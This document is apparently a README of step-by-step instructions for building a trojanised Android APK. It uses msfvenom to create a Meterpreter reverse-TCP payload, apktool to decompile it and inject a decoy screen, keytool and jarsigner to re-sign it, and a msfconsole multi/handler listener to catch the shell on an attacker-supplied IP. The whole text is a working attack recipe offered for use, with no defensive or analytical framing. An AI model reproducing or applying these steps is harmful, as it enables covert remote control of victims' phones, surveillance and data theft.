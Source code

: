 Payload Builder Instructions:

Follow these steps to build the APK payload for Android devices.


1. Generate Reverse Shell

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o base.apk
```

---

2. Decompile APK

```bash
apktool d base.apk -o hacked_source
```

---

3. Inject Decoy Screen

- Place `hacked_screen.xml` into:
  ```
  hacked_source/res/layout/
  ```

- Edit the smali code for MainActivity (instructions in `apktool_instructions.txt`)

---

4. Rebuild and Sign

```bash
apktool b hacked_source -o hacked_payload.apk

keytool -genkey -v -keystore hacked.keystore -alias hackedkey -keyalg RSA -keysize 2048 -validity 10000

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore hacked.keystore hacked_payload.apk hackedkey
```

---

5. Setup Listener

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```
